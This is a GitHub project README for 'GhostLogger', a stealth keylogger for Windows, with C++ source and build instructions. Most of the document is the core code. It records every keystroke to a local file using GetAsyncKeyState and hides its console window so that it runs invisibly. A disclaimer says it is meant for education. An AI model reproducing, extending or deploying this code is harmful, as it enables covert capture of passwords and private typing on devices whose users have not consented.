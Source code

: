 # GhostLogger 👻🖥️

Welcome to **GhostLogger**, a stealthy and efficient keylogging application for Windows! Designed for educational purposes and to demonstrate low-level Windows programming techniques, GhostLogger captures and records keystrokes in a hidden manner.

## Features 🌟
- **Stealth Mode**: Runs invisibly in the background.
- **Comprehensive Key Logging**: Captures a wide range of keys, including alphabetic characters, numeric keys, function keys, control keys, and special characters.
- **Log File**: Records all keystrokes in `Record.txt`.

## Project Structure 📁
```
GhostLogger
├───.vscode
│   ├───c_cpp_properties.json
│   ├───settings.json
│   └───tasks.json
└───src
    ├───main.cpp
    └───Record.txt
```

## How It Works 🛠️
The main functionality is encapsulated in `main.cpp`, which includes the following key components:
- **KeyLogger**: A function that captures keystrokes using `GetAsyncKeyState` and writes them to `Record.txt`.
- **hide_exe**: A function that hides the console window to ensure the program runs invisibly.

### Code Overview 👨‍💻
Here's a brief look at the core code in `main.cpp`:

```cpp
#include <iostream>
#include <windows.h>
#include <winuser.h>
#include <fstream>

// Function prototypes
void KeyLogger(void);
void hide_exe();

// main function
int main(void)
{
    hide_exe();
    KeyLogger();
}

// function to capture the keystrokes
void KeyLogger(void)
{
    char character;

    while (true)
    {
        for (character = 8; character <= 222; character++)
        {
            if (GetAsyncKeyState(character) == -32767)
            {
                std::ofstream write("Record.txt", std::ios::app);
                if (character > 64 && character < 91 && !GetAsyncKeyState(0x10))
                {
                    character += 32;
                    write << character;
                }
                else if (character > 64 && character < 91)
                {
                    write << character;
                }

                switch (character)
                {
                    case 39: // '
                        write << (GetAsyncKeyState(0x10) ? "\"" : "'");
                        break;
                    case 44: // ,
                        write << (GetAsyncKeyState(0x10) ? "<" : ",");
                        break;
                    // ... handle other cases ...
                    case VK_RETURN: // ENTER key
                        write << " <Enter> " << std::endl;
                        break;
                    case 32: // Space key
                        write << " ";
                        break;
                    // ... handle other cases ...
                }
            }
        }
    }
}

// function to hide the exe file.
void hide_exe()
{
    HWND stealth;
    AllocConsole();
    stealth = FindWindowA("ConsoleWindowClass", NULL);
    ShowWindow(stealth, 0);
}
```

## Getting Started 🚀
To run GhostLogger on your machine, follow these steps:

1. **Clone the Repository**:
   ```sh
   git clone https://github.com/yourusername/GhostLogger.git
   ```
2. **Open in VSCode**:
   ```sh
   code GhostLogger
   ```
3. **Build and Run**:
   - Make sure you have a C++ compiler installed.
   - Compile and run `main.cpp` using your preferred method or directly through VSCode's built-in tasks.

## Usage ⚙️
- Once the program is running, it will operate in the background, logging all keystrokes to `Record.txt`.
- To stop the program, you will need to end the process through Task Manager or by terminating it via your development environment.

## Legal Disclaimer ⚖️
This project is intended for educational purposes only. Unauthorized use of keylogging software is illegal and unethical. Always ensure you have explicit permission before using this software on any device.

## Connect with Me 🌐
I'm always looking to expand my professional network and explore new opportunities. Let's connect!
- [LinkedIn](https://www.linkedin.com/in/yourprofile)
- [Twitter](https://twitter.com/yourhandle)
- [Email](mailto:youremail@example.com)

## License 📜
This project is licensed under the Creative Commons Attribution-NonCommercial-NoDerivatives 4.0 International License. See the [LICENSE](LICENSE) file for details.

---

Made with ❤️ by [Your Name](https://github.com/yourusername)

Happy Coding! 🎉
